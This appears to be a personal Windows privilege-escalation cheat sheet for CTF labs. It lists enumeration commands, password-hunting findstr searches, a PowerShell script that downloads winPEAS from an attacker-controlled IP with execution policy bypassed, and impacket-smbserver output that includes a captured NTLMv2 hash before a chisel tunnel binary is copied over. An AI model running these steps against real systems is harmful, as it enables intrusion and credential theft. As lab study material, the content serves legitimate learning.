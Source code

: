 ```yaml
---
title: Windows Privilege Escalation
draft: false
tags:
  - windows
  - privilege-escalation
  - chisel
  - smbserver
---
```


## Plot
Let's say you have successfully compromised the system with lower user privilege. You would have to escalate your privilege into root. 

More elaborate steps could be found on [PayloadsAllTheThings](https://swisskyrepo.github.io/InternalAllTheThings/redteam/escalation/windows-privilege-escalation/) or [sushant747](https://sushant747.gitbooks.io/total-oscp-guide/content/privilege_escalation_windows.html)

Here, I uploaded check list and personal tricks.



## Checklist
- [ ] Kernel Exploit?
- [ ] privileges?
- [ ] groups?
- [ ] Internal services?
- [ ] Pivoting?
- [ ] File Enumeration?
- [ ] Password Hunting?
- [ ] Scheduled Tasks?


## Basic Enumeration

### Kernel Exploit

  
```bash
systeminfo
hostname
wmic qfe get Caption,Description,HotFixID,InstalledOn
```


### Privilege

Check on user privilege:

```powershell
whoami /priv
```

- Check for **SeImpersonatePrivilege**: Potato Attack

- Check for **SeMachineAccountPrivilege**: Certify.exe

### User & Group


```powershell
whoami /all
net users
net user 'username'
net user administrator
net localgroup
net localgroup administrators
net /group domain
whoami /groups
```

### File Enumeration

First go to **C:** and see if there are and hidden directory:

```powershell
dir -force
gci -force
dir /R
```

You can also search for passwords:

```powershell
findstr /si password *.txt
findstr /si password *.xml
findstr /si password *.ini

#Find all those strings in config files.
dir /s *pass* == *cred* == *vnc* == *.config*

# Find all passwords in all files.
findstr /spin "password" *.*
findstr /spin "password" *.*
```
## Network Information

Check for services only open internally:

**Local address 0.0.0.0**  
Local address 0.0.0.0 means that the service is listening on all interfaces. This means that it can receive a connection from the network card, from the loopback interface or any other interface. This means that anyone can connect to it.

**Local address 127.0.0.1**  
Local address 127.0.0.1 means that the service is only listening for connection from the your PC. Not from the internet or anywhere else. **This is interesting to us!**

**Local address 192.168.1.9**  
Local address 192.168.1.9 means that the service is only listening for connections from the local network. So someone in the local network can connect to it, but not someone from the internet. **This is also interesting to us!**

Also check for pivoting.

```bash
ipconfig
ipconfig /all
route print
arp -a (shows all devices on network)
netstat -ano

netsh firewall show state
netsh advfirewall firewall
netsh advfirewall dump
netsh advfirewall show allprofiles
```


If there are services running internally, check if it is running currently:

```powershell
tasklist
ps
wmic service list brief
tastlist /SVC
schtasks /query /fo LIST /v
```


## AV Detection


Usually not needed during CTF.

-antivirus

```powershell
sc query windefend
sc queryex type= service
```

-firewall setting

```powershell
netsh advfirewall firewall dump
netsh firewall show state
netsh firewall show config
```

  
  
  

## File Transfer

### Transferring winpeas.exe


The following sequence of commands creates a PowerShell script named **wget.ps1** that performs the download of a file (**winpeas.exe**) from a specified URL (http://10.10.16.22/winpeas.exe) using the **System.Net.WebClient** class.

Obviously, I have Python HTTP server running with **winpeas.exe** on the server.


```powershell
c:\Users\Public>echo $storageDir = $pwd > wget.ps1

echo $storageDir = $pwd > wget.ps1

c:\Users\Public>echo $webclient = New-Object System.Net.WebClient >>wget.ps1

echo $webclient = New-Object System.Net.WebClient >>wget.ps1

c:\Users\Public>echo $url = "http://10.10.16.22:80/winPEASany_ofs.exe" >>wget.ps1

echo $url = "http://10.10.16.22:80/winPEASany_ofs.exe" >>wget.ps1

c:\Users\Public>echo $file = "output-file.exe" >>wget.ps1

echo $file = "output-file.exe" >>wget.ps1

c:\Users\Public>echo $webclient.DownloadFile($url,$file) >>wget.ps1

echo $webclient.DownloadFile($url,$file) >>wget.ps1

c:\Users\Public>powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1

powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1
```

Now I have the file on the box:

[Reference](https://d00mfist.gitbooks.io/ctf/content/transfering_files_to_windows.html)

  

### impacket-smbserver

  

I started impacket-smbserver on the directory where I have chisel for windows downloaded:

```bash
┌──(yoon㉿kali)-[/opt/chisel]
└─$ impacket-smbserver share $(pwd) -smb2support
Impacket v0.10.1.dev1+20230524.180921.8b3f9eff - Copyright 2022 Fortra

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
[*] Incoming connection (10.10.10.198,49709)
[*] AUTHENTICATE_MESSAGE (BUFF\shaun,BUFF)
[*] User BUFF\shaun authenticated successfully
[*] shaun::BUFF:aaaaaaaaaaaaaaaa:88bf12d0cc9b3c7901bb2dba46eef3e5:01010000000000000094cfb7c826da0173276d717b2863490000000001001000560054004f007a004600780062004c0003001000560054004f007a004600780062004c0002001000740079004d004100430064006e00500004001000740079004d004100430064006e005000070008000094cfb7c826da0106000400020000000800300030000000000000000000000000200000bf2c19dd9da880406292e63bbae8800a290ba0d9bc31ed864a57d99e51f9f83d0a0010000000000000000000000000000000000009001e0063006900660073002f00310030002e00310030002e00310034002e0039000000000000000000
[*] Connecting Share(1:IPC$)
[*] Connecting Share(2:share)
[*] Disconnecting Share(1:IPC$)
```


Now I have chisel for windows on the box. which I downloaded as **c.exe**:


```powershell
C:\xampp\htdocs\gym\upload>copy \\10.10.14.9\share\c_w c.exe
1 file(s) copied.
```

  
